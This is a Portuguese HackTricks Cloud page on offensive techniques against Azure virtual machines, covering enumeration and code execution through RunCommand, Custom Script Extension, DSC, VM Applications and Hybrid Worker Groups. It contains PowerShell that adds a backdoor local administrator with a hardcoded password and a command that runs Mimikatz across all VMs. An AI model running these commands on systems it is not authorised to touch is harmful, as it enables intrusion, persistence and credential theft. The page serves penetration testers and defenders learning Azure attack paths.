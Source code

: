 # Az - Máquinas Virtuais e Rede

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

[A partir da documentação:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) As máquinas virtuais do Azure são um dos vários tipos de [recursos computacionais escaláveis sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações da Rede Azure

As redes Azure contêm **entidades diferentes e formas de configurá-las.** Você pode encontrar **descrições breves,** **exemplos** e **comandos de enumeração** das diferentes entidades de rede Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferece uma solução de acesso seguro e totalmente gerenciada para RDP (Remote Desktop Protocol) e SSH (Secure Shell) por SSL por meio do portal Azure. Ele está integrado a uma Rede Virtual do Azure, permitindo conectividade RDP e SSH às VMs usando IPs privados, evitando a necessidade de IPs públicos. Isso o torna uma alternativa mais segura e conveniente aos métodos tradicionais que envolvem atribuições de IPs públicos e configurações de regras NSG para acesso às VMs. Desenvolvedores e pessoal de TI podem acessar com segurança as VMs a partir do portal Azure usando seus navegadores da web, simplificando o processo para ambientes de desenvolvimento e testes.

Para listar todos os Hosts do Azure Bastion em sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login do AAD na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **VM Linux**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o e-mail** com o azurecorp usado ao tentar fazer login), você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Apenas **siga essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para fazer isso: função `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Executar Comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquinas virtuais (VMs) do Azure são **pequenas aplicações** que fornecem configuração pós-implementação e tarefas de automação em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tiver acesso para escrever, você pode executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Estado de Configuração Desejado (DSC)

O Estado de Configuração Desejado (DSC) é uma ferramenta do PowerShell semelhante ao Ansible, usada para configurar um host por meio de código. O DSC integra-se ao Azure, permitindo o upload de arquivos de configuração específicos. Esses arquivos devem seguir uma sintaxe rigorosa. Notavelmente, a extensão DSC no Azure pode executar comandos de arquivos que atendem a certos critérios de formatação, mesmo que a sintaxe não esteja correta para os padrões do DSC, conforme mostrado na figura fornecida.

A execução desses comandos é facilitada pela função [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) no Az PowerShell. Os requisitos incluem um arquivo **.PS1** com uma função definida e o arquivo deve ser compactado em um arquivo **.zip**. Mesmo que a sintaxe possa não estar correta para o DSC, o código ainda será executado. No entanto, a extensão marcará o status de execução como "falha" e nenhuma saída do comando será visível devido ao status ser sobrescrito pela mensagem de falha.

### Definições de Aplicativos de VM

As Definições de Aplicativos de VM permitem a implantação repetível de aplicativos versionados em uma VM do Azure. Este recurso suporta a implantação e atualização de aplicativos em várias VMs. Para configurar isso, várias etapas são necessárias, envolvendo comandos como **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

A execução de aplicativos ou comandos por meio deste método envolve o **"VMAppExtension"**, que é instalado automaticamente quando um aplicativo é aplicado a uma VM. A extensão recupera o arquivo da URI especificada e o nomeia exatamente como o aplicativo, sem uma extensão. Para executar o arquivo corretamente, o campo "ManageActions" na chamada da API REST deve ser configurado para renomear o arquivo com a extensão apropriada. A configuração deste método, uma vez concluída, se assemelhará à estrutura mostrada na figura fornecida.

No entanto, esse método de execução é relativamente lento, levando cerca de 3-4 minutos para executar um aplicativo ou comando. Os arquivos relacionados a esse processo são armazenados em diretórios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para a cópia do aplicativo e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para o status de execução).

Ambas as técnicas fornecem maneiras únicas de executar comandos e implantar aplicativos em ambientes Azure, cada uma com seu próprio conjunto de requisitos, etapas e considerações.

### Grupos de Trabalhadores Híbridos (HWGs) no Azure

[**Grupos de Trabalhadores Híbridos (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) são um recurso no Azure que permite que Runbooks, configurados em uma Conta de Automação, sejam executados em uma Máquina Virtual (VM) do Azure que faz parte do HWG designado. Essa execução é facilitada por meio de uma extensão instalada na VM, que implanta o código do Runbook na VM. Um aspecto significativo desse processo é que as credenciais reais não são um fator na execução porque o código é executado com privilégios elevados, especificamente como **SYSTEM** ou root, conforme ilustrado na figura fornecida.

Um detalhe crucial para aqueles que utilizam VMs do Windows 10 é a necessidade de especificar a versão do PowerShell para o Runbook. Deve ser configurado para ser executado como a Versão 5.1 do PowerShell em vez da 7.1. Esse requisito decorre do fato de que o PowerShell 7.1 não é instalado por padrão nessas VMs, levando a uma falha na execução do script se a versão 7.1 for especificada.

Este recurso do Azure oferece um método robusto para automatizar e gerenciar tarefas em ambientes híbridos, permitindo o gerenciamento centralizado e a execução de tarefas em VMs do Azure.


## Referências

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
